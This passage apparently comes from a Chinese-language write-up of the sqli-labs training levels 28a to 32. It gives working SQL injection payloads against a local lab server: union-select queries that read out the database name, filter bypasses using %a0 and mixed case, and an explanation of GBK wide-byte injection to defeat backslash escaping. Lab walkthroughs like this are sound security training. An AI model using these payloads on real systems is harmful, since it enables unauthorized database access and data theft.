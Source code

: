 还是半个盲注，`http://192.168.130.131:8080/Less-28a/?id=1999')%a0uniOn%a0SeleCt%a01,2,('3`

## Less-29

### 分析

输入 `1'`，报错 `'1'' LIMIT 0,1`；输入 `1' and '1'='1`，显示正确；

输入 `-1' union select 1, (select database()), 3 --+`直接出现回显，并没有感觉到WAF在干活，不过从下面显示的query string看来好像对请求做了一个转发一样，对语句进行了url编码

## Less-30

### 分析

输入 `1'`显示正常，输入 `1"`无显示，输入 `1" and "1"="1`显示正常，初步判定为双引号闭合。

### 注入

`-1" union select 1, (select database()), "3` WAF似乎依旧没有干活

## Less-31

### 分析

输入 `")"`时，报错为 `") LIMIT 0, 1`，判断为双引号加括号闭合。

### 注入

`-1") union select 1, (select database()), ("3`显示出数据库名

## Less-32

### 分析

输入 `1'`，可见单引号前被加反斜杠。

特殊字符大多被反斜杠处理

尝试用各种编码绕过无果

### 利用

**宽字节注入** 

前提：数据库使用了GBK编码

对象：反斜杠

原理：gbk属于多字节编码，即两个字节代表一个汉字。反斜杠的编码是`%5c`，但是当其前面遇到`%df`时，会因GBK编码而将这两个字节转换成汉字。这样就把原本要被转移的特殊字符给保留了下来。

### 注入
